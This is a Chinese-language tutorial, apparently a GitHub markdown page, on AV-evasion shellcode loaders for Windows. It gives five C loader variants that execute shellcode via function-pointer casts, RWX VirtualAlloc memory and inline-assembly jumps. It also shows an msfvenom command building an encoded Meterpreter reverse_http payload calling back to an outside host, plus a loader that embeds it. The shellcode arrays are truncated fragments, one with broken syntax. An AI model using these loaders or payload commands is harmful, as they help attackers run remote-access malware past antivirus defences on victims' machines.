


# 0x00 C加载shellcode

c语言加载shellcode非常方便，C/C++好用是好用就是头有点凉快。以下加载方法均来自网络


第一种


```
#include <windows.h>
#include <stdio.h>
#pragma comment(linker,"/subsystem:\"windows\" /entry:\"mainCRTStartup\"")

unsigned char shellcode[] =
"\xfc\xe8\x89\x00\x00\x00\x60\x89\xe5\x31\xd2\x64\x8b\x52\x30\x8b"
"\x52\x0c\x8b\x52\x14\x8b\x72\x28\x0f\xb7\x4a\x26\x31\xff\x31\xc0"
"\xac\x3c\x61\x7c\x02\x2c\x20\xc1\xcf\x0d\x01\xc7\xe2\xf0\x52\x57";

void main()
{
	((void(*)(void))&shellcode)();
}

```


第二种


```
#include <windows.h>
#include <stdio.h>
#pragma comment(linker,"/subsystem:\"windows\" /entry:\"mainCRTStartup\"")

unsigned char shellcode[] =
"\xfc\xe8\x89\x00\x00\x00\x60\x89\xe5\x31\xd2\x64\x8b\x52\x30\x8b"
"\x52\x0c\x8b\x52\x14\x8b\x72\x28\x0f\xb7\x4a\x26\x31\xff\x31\xc0"
"\xac\x3c\x61\x7c\x02\x2c\x20\xc1\xcf\x0d\x01\xc7\xe2\xf0\x52\x57";

void main()
{
	    PVOID p = NULL;

               if((p = VirtualAlloc(NULL,sizeof(shellcode),MEM_COMMIT|MEM_RESERVE,PAGE_EXECUTE_READWRITE)) == NULL)

                               MessageBox(NULL,"VirtuallAlloc Failed!!!","Prompt",MB_OK);

               if(!(memcpy(p,shellcode,sizeof(shellcode))))

                               MessageBox(NULL,"WriteMemory Failed!!!","Prompt",MB_OK);

               CODE code = (CODE)p;  

               code();  
}
```


第三种


```
#include <windows.h>
#include <stdio.h>
#pragma comment(linker,"/subsystem:\"windows\" /entry:\"mainCRTStartup\"")

unsigned char shellcode[] =
"\xfc\xe8\x89\x00\x00\x00\x60\x89\xe5\x31\xd2\x64\x8b\x52\x30\x8b"
"\x52\x0c\x8b\x52\x14\x8b\x72\x28\x0f\xb7\x4a\x26\x31\xff\x31\xc0"
"\xac\x3c\x61\x7c\x02\x2c\x20\xc1\xcf\x0d\x01\xc7\xe2\xf0\x52\x57";

void main()
{
               __asm

               {  

                               lea eax,shellcode;  

                               jmp eax;  

               }  
}


```


第四种


```
#include <windows.h>
#include <stdio.h>
#pragma comment(linker,"/subsystem:\"windows\" /entry:\"mainCRTStartup\"")

unsigned char shellcode[] =
"\xfc\xe8\x89\x00\x00\x00\x60\x89\xe5\x31\xd2\x64\x8b\x52\x30\x8b"
"\x52\x0c\x8b\x52\x14\x8b\x72\x28\x0f\xb7\x4a\x26\x31\xff\x31\xc0"
"\xac\x3c\x61\x7c\x02\x2c\x20\xc1\xcf\x0d\x01\xc7\xe2\xf0\x52\x57";

void main()
{
	  __asm  

               {  

                               mov eax,offset shellcode;  

                               jmp eax;

               }  
}

```


第五种


```
#include <windows.h>
#include <stdio.h>
#pragma comment(linker,"/subsystem:\"windows\" /entry:\"mainCRTStartup\"")

unsigned char shellcode[] =
"\xfc\xe8\x89\x00\x00\x00\x60\x89\xe5\x31\xd2\x64\x8b\x52\x30\x8b"
"\x52\x0c\x8b\x52\x14\x8b\x72\x28\x0f\xb7\x4a\x26\x31\xff\x31\xc0"
"\xac\x3c\x61\x7c\x02\x2c\x20\xc1\xcf\x0d\x01\xc7\xe2\xf0\x52\x57";

void main()
{
	               __asm

               {

                               mov eax,offset shellcode;

                               _emit 0xFF;

                               _emit 0xE0;

               } 
}

```

这都是基本加载方法基本已经不过了但是还是提一下, AV 检测中 shellcode 是可以载入内存的,但是不能去执行,执行就会判断为恶意程序也就是我们可以把
它分成2个部分。

1. shellcode 特征

2. 执行shellcode

简单的举个例子

```
#include <windows.h>
#include <stdio.h>

unsigned char shellcode[] =
"\xfc\xe8\x89\x00\x00\x00\x60\x89\xe5\x31\xd2\x64\x8b\x52\x30\x8b"
"\x52\x0c\x8b\x52\x14\x8b\x72\x28\x0f\xb7\x4a\x26\x31\xff\x31\xc0"
"\xac\x3c\x61\x7c\x02\x2c\x20\xc1\xcf\x0d\x01\xc7\xe2\xf0\x52\x57";

unsigned char noshellcode[] = "";

void main()
{
  ((void(*)(void))&noshellcode)();
}


```

这个程序它不会判断为恶意程序,因为我们根本没去执行它,如何免杀呢,我们可以把shellcode加密,然后再解密运行,或者用其他方式来调用它。





# 0x01 配合msf shellcode

MSF框架自带了很多加密方式，在msf5中又添加了更多的加密方式，有兴趣的朋友可以试试，我们知道msf的通讯和cs的通讯协议相通的，所以我们用msf生成shellcode来执行

```
msfvenom -p windows/meterpreter/reverse_http -a x86 --platform win LHOST=192.168.130.130 LPORT=8090 -e x86/shikata_ga_nai -i 20 -b '\x00\' -f c >/root/shellcode.c
```

生成我们的shellcode 这里我用的vs 2013 

```
#include "windows.h"  
#include "stdio.h"  

//#pragma comment(linker,"/subsystem:\"windows\" /entry:\"mainCRTStartup\"")//不显示窗口  
//#pragma comment(linker,"/MERGE:.rdata=.text /MERGE:.data=.text /SECTION:.text,EWR")//减小编译体积  
//shellcode在生成payload时选择c即可  

unsigned char shellcode[] =
"\xdb\xdf\xd9\x74\x24\xf4\xba\x82\x82\xc5\x6d\x5d\x31\xc9\xb1"
"\xf3\x83\xed\xfc\x31\x55\x16\x03\x55\x16\xe2\x77\x59\x1c\xb4"
"\x03\x7a\x6b\x1a\x51\x0c\x39\x76\x49\x22\xf7\xc8\x7c\x74\x52"
"\x3c\xfd\x9a\xa0\x41\xda\xdc\x68\x5f\x85\x72\x3c\x1a\x85\xdd"
"\x30\xf5\x5b\xad\xc3\xc8\xac\x6a\xea\x17\x5e\xca\x27\xcf\x3a"

void main()
{
	LPVOID Memory = VirtualAlloc(NULL, sizeof(shellcode), MEM_COMMIT | MEM_RESERVE, PAGE_EXECUTE_READWRITE);
	memcpy(Memory, shellcode, sizeof(shellcode));
	((void(*)())Memory)();
}
```

其实就是个免杀msf shellcode 只是引用一个思路，为什么要讲这个呢，这就是利用编码器编码shellcode来免杀，但是这些特征已被入库。





# 0x02 文末

自己写把CS的shellcode 拿来加密下 在运行也是可行的，但是都是表面免杀，主动还是有问题 。

### 本文如有错误，请及时提醒，以免误导他人
